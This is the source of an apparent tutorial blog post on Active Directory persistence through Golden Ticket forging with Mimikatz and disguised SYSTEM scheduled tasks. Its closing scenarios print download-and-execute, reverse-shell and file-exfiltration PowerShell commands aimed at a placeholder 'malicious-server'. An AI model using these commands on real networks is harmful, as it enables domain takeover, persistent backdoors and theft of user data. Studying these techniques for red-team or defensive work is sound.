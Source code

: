 ```yaml
---
title: 'Golden Ticket & Scheduled Tasks: Domain Persistence Through Kerberos Exploitation'
published: 2025-04-22
description: 'Deep dive into combining Golden Ticket attacks with scheduled tasks for persistent domain compromise, covering Kerberos exploitation, ticket forging, and automated persistence mechanisms'
image: ''
tags: [Windows PrivEsc]
category: 'Privilege Escalation'
draft: false 
lang: 'ar-eng'
---
```

```markdown
# Golden Ticket Attack and Scheduled Tasks for Persistence

## Table of Contents

- [1. The Golden Ticket Attack](#1-the-golden-ticket-attack)
  - [Key Concepts of Golden Ticket](#key-concepts-of-golden-ticket)
- [2. Scheduled Tasks as a Persistence Mechanism](#2-scheduled-tasks-as-a-persistence-mechanism)
  - [Why Scheduled Tasks Are Effective for Persistence](#why-scheduled-tasks-are-effective-for-persistence)
  - [Common Uses in Attacks](#common-uses-in-attacks)
- [3. Combining Golden Ticket with Scheduled Tasks](#3-combining-golden-ticket-with-scheduled-tasks)
  - [Step 1: Compromise and Obtain KRBTGT Hash](#step-1-compromise-and-obtain-krbtgt-hash)
  - [Step 2: Generate a Golden Ticket](#step-2-generate-a-golden-ticket)
  - [Step 3: Inject the Golden Ticket](#step-3-inject-the-golden-ticket)
  - [Step 4: Create Malicious Scheduled Tasks](#step-4-create-malicious-scheduled-tasks)
  - [Step 5: Maintain Access](#step-5-maintain-access)
- [4. Example Attack Scenarios](#4-example-attack-scenarios)
  - [Scenario 1: Deploying Malware](#scenario-1-deploying-malware)
  - [Scenario 2: Reverse Shell](#scenario-2-reverse-shell)
  - [Scenario 3: Data Exfiltration](#scenario-3-data-exfiltration)

---

## 1. The Golden Ticket Attack

The **Golden Ticket attack** is an advanced persistence and privilege escalation technique targeting Active Directory (AD) environments. It exploits the Kerberos authentication system by forging Kerberos tickets, allowing attackers to impersonate any user, including privileged accounts like **Domain Admins**.

### Key Concepts of Golden Ticket

1. **Kerberos Authentication Flow**:
   - A user requests a **Ticket Granting Ticket (TGT)** from the Key Distribution Center (KDC).
   - The KDC signs the TGT using the **KRBTGT** account's secret key (NTLM hash).
   - The user uses the TGT to request service tickets (TGS) for accessing specific resources.
2. **KRBTGT Account**:
   - The **KRBTGT** account is the cornerstone of the Kerberos protocol.
   - If the NTLM hash of this account is compromised, attackers can forge TGTs for any user.
3. **Golden Ticket Mechanics**:
   - The attacker creates a TGT with:
     - **Valid domain SID**.
     - **KRBTGT hash**.
     - **Username** (e.g., Administrator).
   - The forged ticket is indistinguishable from legitimate tickets and provides unrestricted access.
4. **Persistence**:
   - The Golden Ticket remains valid until the KRBTGT password is reset twice, making it a highly persistent attack vector.

---

## 2. Scheduled Tasks as a Persistence Mechanism

**Scheduled Tasks** in Windows allow users to automate the execution of commands or programs at specified times or events. Attackers leverage this feature to maintain persistence after gaining elevated privileges via a Golden Ticket.

### Why Scheduled Tasks Are Effective for Persistence

- **Pre-installed Feature**: No need for additional tools.
- **Flexibility**: Tasks can be configured to trigger based on time, events, or system states.
- **Stealth**: Tasks can be disguised as legitimate system tasks.
- **Persistence**: Survive reboots and user logouts.

### Common Uses in Attacks

- Deploy malware or backdoors.
- Execute reverse shells or command payloads.
- Collect and exfiltrate data.
- Disable security mechanisms.

---

## 3. Combining Golden Ticket with Scheduled Tasks

This combination is a powerful strategy for maintaining long-term control over a compromised domain. Below is the step-by-step process:

### Step 1: Compromise and Obtain KRBTGT Hash

- The attacker compromises a domain controller (DC) or extracts credentials using tools like **Mimikatz**:

  ```plaintext
  sekurlsa::krbtgt
  ```

### Step 2: Generate a Golden Ticket

- Use the KRBTGT hash to forge a Golden Ticket:

  ```plaintext
  kerberos::golden /user:Administrator /domain:corp.local /sid:S-1-5-21-123456789-123456789-123456789 /krbtgt:<KRBTGT_HASH> /id:500
  ```

- Save the ticket:

  ```plaintext
  kerberos::golden /export
  ```

### Step 3: Inject the Golden Ticket

- Inject the forged ticket into the current session:

  ```plaintext
  kerberos::ptt <path_to_ticket>
  ```

### Step 4: Create Malicious Scheduled Tasks

- As a privileged user, create scheduled tasks to execute malicious commands.

#### Examples

1. **Using `schtasks`**:

   ```plaintext
   schtasks /create /sc daily /tn "UpdateTask" /tr "cmd.exe /c powershell.exe -NoProfile -Command <command>" /ru "SYSTEM"
   ```

2. **Using PowerShell**:

   ```powershell
   $action = New-ScheduledTaskAction -Execute "powershell.exe" -Argument "-NoProfile -WindowStyle Hidden -Command <command>"
   $trigger = New-ScheduledTaskTrigger -Daily -At 3am
   Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "MaliciousTask" -User "SYSTEM"
   ```

### Step 5: Maintain Access

- Scheduled tasks ensure that the attacker’s payloads or tools are executed periodically, even if detection mechanisms remove other artifacts.

---

## 4. Example Attack Scenarios

### Scenario 1: Deploying Malware

- Download and execute malware from a remote server:

  ```powershell
  Invoke-WebRequest -Uri "http://malicious-server/payload.exe" -OutFile "C:\Windows\Temp\payload.exe"; Start-Process "C:\Windows\Temp\payload.exe"
  ```

### Scenario 2: Reverse Shell

- Establish a reverse shell to maintain remote access:

  ```powershell
  powershell -NoProfile -Command "& {Invoke-Expression (New-Object Net.WebClient).DownloadString('http://malicious-server/shell.ps1')}"
  ```

### Scenario 3: Data Exfiltration

- Collect and exfiltrate sensitive files:

  ```powershell
  Compress-Archive -Path C:\Users\* -DestinationPath C:\Temp\data.zip
  Invoke-WebRequest -Uri "http://malicious-server/upload" -Method POST -InFile "C:\Temp\data.zip"
  ```
---

**`Happy Hacking Broo`**

---